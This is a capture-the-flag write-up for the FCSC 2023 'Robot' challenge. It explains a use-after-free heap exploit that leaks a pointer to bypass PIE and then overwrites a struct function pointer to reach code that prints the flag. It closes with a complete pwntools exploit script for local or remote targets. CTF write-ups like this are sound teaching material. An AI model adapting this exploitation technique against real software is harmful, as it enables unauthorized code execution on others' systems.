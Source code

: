 +++
title = "FCSC 2023 | Robot"
+++

# Intro
So, first in first what does we have to do ? After a fast analyse of the source code we can see that the function who's interesting is `admin`:

```c
void admin(char *pwd)
{
    unsigned char hash[SHA256_DIGEST_LENGTH];
	char result[65];

	SHA256((const unsigned char *) pwd, strlen(pwd), hash);

	for (int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
		sprintf(result + (i * 2), "%02x", hash[i]);
	}

	if (rstcmp(result, encrypted) == 0) {
		execl("/bin/cat", "/bin/cat", "flag.txt", NULL);
		perror("execl");
		exit(2);
	} else {
		puts("ERROR: wrong password!");
	}
}
```

it's a comparaison between our input hashed and a predefined hash, we don't are in a crypto chall so we don't care about that, our objective is to jump directly to the execl to print the flag.

# Exploitation

## Actual situation
Now it's exploit time ! In first we can see that when a user create a robot, this robot is stored in the heap, to do this the program alloc a `struct` called `robot` who contains one chars of 16bits and two pointers so the chunk allocated will be of `32bytes` other interesting things is that when we read the manual the program will read the 32bits of the first chunk stored !

## Exploit - leak
So now, we can understand how we are going to exploit this thing !

In first we going to allocate a first chunk by create a new robot so the heap will look like this:
```
+--------------------+
|        HEAP        |
+--------------------+
|       name[16]     |
|       *bleep       |  32 bits
|       *rool        |
+--------------------+
```

the we free the bloc so free will rewrite first byte but ptr will stay so, if we create a new manuel we'll rewrite the previous bloc so we juste have to rewrite of 16 bits to rewrite only the metadata and the username, our chunk will look like this:
```
+--------------------+
|        HEAP        |
+--------------------+
|        manuel      |
|       *bleep       |  32 bits
|       *rool        |
+--------------------+
```

now, if we read the manuel we'll leak the ptr, now we have leak the soft to bypass PIE we can now calculate the offset to go to our `execl` and then what's we'll do ?!

## New situation
OK ! now we have leaked what's we want so we can exploit it but how ?! if you remember in the struct we defind pointer, this pointers are called by our program to make some actions so we can rewrite one of this, the we triger actions and then we print the flag ! let's do this !

## Exploit - CE

So, now our heap look like this
```
+--------------------+
|        HEAP        |
+--------------------+
|        manuel      |
|       *bleep       |  32 bits
|       *rool        |
+--------------------+
```

so we're going to create a new robot and heap look like this
```
+--------------------+
|        HEAP        |
+--------------------+
|       name[16]     |
|       *bleep       |  32 bits
|       *rool        |
+--------------------+
```

we create a new manuel and write 16 bits and then our address, so our chunk will look like this
```
+--------------------+
|        HEAP        |
+--------------------+
|       name[16]     |
|       *execl       |  32 bits
|       *roll        |
+--------------------+
```

then trigered the `bleep` function by typing 2 and tada ! we got our flag !

# Exploitation - exploit

```python
#!/bin/python
from pwn import *
from sys import argv

def recv_header(io):
    io.recvline()
    for i in range(4):
        io.recvline()

def create(io, data="Botman"):
    recv_header(io)
    io.sendline(b'1')
    io.sendlineafter(b"> Comment vous l'appelez ?\n", data)
    io.recvline()
    io.recvline()
    return 'robot created'

def manuel(io, data="data"):
    recv_header(io)
    io.sendline(b'4')
    io.sendlineafter(b"Vous commencez \xc3\xa0 r\xc3\xa9diger le mode d'emploi...\n", data)
    io.recvline()
    return 'manuel created'

def delete(io):
    recv_header(io)
    io.sendline(b'3')
    for i in range(3):
        io.recvline()
    return 'robot deleted'

def show(io):
    recv_header(io)
    io.sendline(b'2')
    return io.recvline()

def read(io):
    recv_header(io)
    io.sendline(b"5")
    io.recvline()
    return io.recvline()

def exploit(io, elf):
    create(io, b"A"*16)
    delete(io)
    manuel(io, b"A"*16)
    leak = read(io)
    leak = leak[leak.index(b'\xfc'):][:-2]

    hex_values = [hex(byte)[2:].zfill(2) for byte in leak if byte != 0]
    hex_string = bytes.fromhex((''.join(hex_values)))[:8][::-1]
    hex_int = int.from_bytes(hex_string, 'big')
    leak = int(f'0x0000{hex_int:012x}', 16)

    flag = leak + 0x180
    
    print("leak :" + hex(leak))
    print("flag :" + hex(flag))

    create(io, b"A"*16)
    delete(io)
    manuel(io, b"A"*16 + p64(flag))
    print(show(io))

if __name__ == "__main__":
    usage = '''
usage: ./exploit.py [binary] ?debug
       ./exploit.py remote [binary] [ip] [port] ?debug
       ./exploit.py [binary] ?gdb [command]

       default command = 'continue'
'''

    if len(argv) <= 1:
        print('error: no arguments specified\n'+usage)
        exit(0)

    elif len(argv) <= 5 and argv[1] != 'remote':
        context.binary = elf = ELF(argv[1])
        context.terminal = ["tmux", "splitw", '-h']
        p = process()
        if "gdb" in argv: gdb.attach(p, argv[-1]) if argv[-1] != 'gdb' else gdb.attach(p, 'continue')
        if "debug" in argv: context.log_level = "DEBUG"
        exploit(p,elf)
    elif len(argv) <= 6 and argv[1] == "remote":
        context.binary = elf = ELF(argv[2])
        p = remote(argv[3], int(argv[4]))
        if "debug" in argv: context.log_level = "DEBUG"
        exploit(p, elf)
    elif len(argv) > 5:
        print('error: too much params specified\n' + usage)
        exit(0)
    elif len(argv) <= 3:
        print('error: you forgot ip or/and port\n' + usage)
        exit(0)
    else:
        print(usage)
```

